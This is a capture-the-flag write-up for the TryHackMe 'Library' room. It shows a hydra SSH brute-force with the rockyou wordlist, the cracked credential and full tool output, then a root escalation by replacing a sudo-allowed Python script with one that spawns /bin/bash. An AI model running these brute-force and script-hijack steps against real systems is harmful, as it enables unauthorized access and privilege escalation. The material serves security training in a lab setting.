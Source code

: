 # Library Tryhackme Writeup

1. In http robots.txt gives hint rockyou and website shows posted by **meliodas**. Run ssh brute froce hydra accordingly to this.
2. Hydra finished got ssh passwd meliodas:iloveyou1
3. Privesc in home dir bak.py python script own by root. root can run this file. Not writeable by other user but we can delete it.
4. Delete the bak.py and create new one as same name bak.py

```bash
┌──(arundhanush㉿kali)-[~/CTF/THM/library]
└─$ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.123.199 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-23 00:00:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.123.199:22/

[STATUS] 147.00 tries/min, 147 tries in 00:01h, 14344253 to do in 1626:20h, 16 active
[22][ssh] host: 10.10.123.199   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-23 00:02:19

``` 

```bash
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

Original bak.py

```py
meliodas@ubuntu:~$ cat bak.py 
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()

```

New bak.py

```bash
meliodas@ubuntu:~$ cat bak.py 
import os

os.system("/bin/bash")

```

```bash
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# whoami
root

```